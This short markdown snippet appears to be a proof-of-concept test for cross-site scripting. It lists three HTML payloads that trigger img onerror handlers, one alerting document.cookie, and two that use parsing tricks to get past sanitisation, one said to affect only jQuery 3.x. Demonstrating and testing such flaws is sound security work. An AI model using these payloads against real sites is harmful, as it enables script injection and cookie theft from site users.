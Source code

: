 # test
&lt;img src=# onerror=alert(document.cookie)>

# Proof of Concept 1:
<style><style /><img src=x onerror=alert(1)>

# Proof of Concept 2 (Only jQuery 3.x affected):
<img alt="<x" title="/><img src=x onerror=alert(1)>">
